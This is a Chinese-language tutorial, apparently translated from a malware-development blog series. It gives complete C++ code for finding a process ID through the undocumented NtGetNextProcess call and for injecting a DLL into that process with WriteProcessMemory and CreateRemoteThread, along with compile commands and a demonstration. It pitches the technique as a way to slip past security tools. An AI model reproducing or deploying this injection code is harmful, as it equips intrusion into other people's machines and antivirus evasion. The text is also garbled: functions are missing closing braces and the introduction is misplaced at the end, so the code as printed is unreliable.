






\newpage
\subsection{恶意软件开发技巧：通过 NtGetNextProcess 查找 PID（简单的 C++ 示例）}

### 技巧是什么？

{width="80%"}

`NtGetNextProcess` 是内核提供的系统调用，用于获取下一个进程。

### 实战示例

这里启动了一个 while 循环，持续执行直到 `myNtGetNextProcess` 返回非零值，表示已经没有更多进程了。

下一个进程的句柄由 `myNtGetNextProcess` 获得并存入 `current`。

对于每个进程，用 `GetProcessImageFileNameA` 获取映像文件名（即进程的可执行文件）并存入 `procName`。

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
  pid = GetProcessId(current);
  break;
  }
  }

  return pid;

```

如果 `procName` 的基本文件名（通过 `PathFindFileName` 获得）与 `procname` 匹配（由于 `lstrcmpiA` 的缘故，比较是大小写不敏感的），就获取 `current` 的进程 ID。

那么，完整源代码看起来是这样的（`hack.cpp`）：

```cpp
/*
 * hack.cpp - find process ID by NtGetNextProcess. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
  pid = GetProcessId(current);
  break;
  }
  }

  return pid;

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  return 0;

```

### 演示

好，我们来看看这个技巧的实际效果。

编译它（`hack.cpp`）：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}

然后，直接在受害机器上运行它（我的例子是 Windows 10 22H2 x64）：

```powershell
.\hack.exe <process>
```

{width="80%"}

我们可以看到，正如预期的那样它完美工作了 :) =..=

### 实战示例 2：查找并注入

我们再来一个带恶意逻辑的例子。按名称查找进程 ID 并向它注入 DLL。

源代码与我之前的文章类似。唯一的区别是 `findMyProc` 函数的逻辑（`hack2.cpp`）：

```cpp
/*
 * hack2.cpp - find process ID
 * by NtGetNextProcess and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
  pid = GetProcessId(current);
  break;
  }
  }

  return pid;

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
  printf("OpenProcess failed! exiting...\n");
  return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;

```

和往常一样，出于简单考虑，我创建了一个带有「meow from evil.dll!」消息框的简单 DLL（`evil.c`）：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

### 演示 2

好，我们来演示一下我们的注入。

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}

然后运行，对 `mspaint.exe` 执行查找和注入：

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}

{width="80%"}

我们可以看到，正如预期的那样，我们的消息框被注入到了 PID = 2568 的 `mspaint.exe` 中。完美！=..=

正如我之前写过的，这个技巧可以用来绕过一些网络安全解决方案，因为许多系统只检测那些众所周知的函数，比如 `CreateToolhelp32Snapshot`、`Process32First`、`Process32Next`。

出于同样的原因，这对许多恶意软件分析师来说也很困难。

我希望这篇文章能让蓝队意识到这项有趣的恶意软件开发技术，同时为红队的武器库增添一件武器。

今天，我想把研究集中在另一个恶意软件开发技巧上：枚举进程并通过 `NtGetNextProcess` 查找 PID。

这是一种常见技术，恶意软件也可以用它来做 AV 规避。

我们只是简单地利用了额外的未文档化特性。

但「下一个」是什么意思？如果你熟悉 Windows 内核内部机制，你就知道进程对象在内核庞大的链表中被串联在一起。

因此，这个系统调用接受一个进程对象的句柄，然后定位链表中当前用户可以访问的下一个进程。

一切都非常简单：

这个函数扫描 Windows 系统上所有正在运行的进程，返回与给定名称匹配的进程的进程 ID（PID）。

我还没有在真实的恶意软件和 APT 攻击中看到这个技巧。
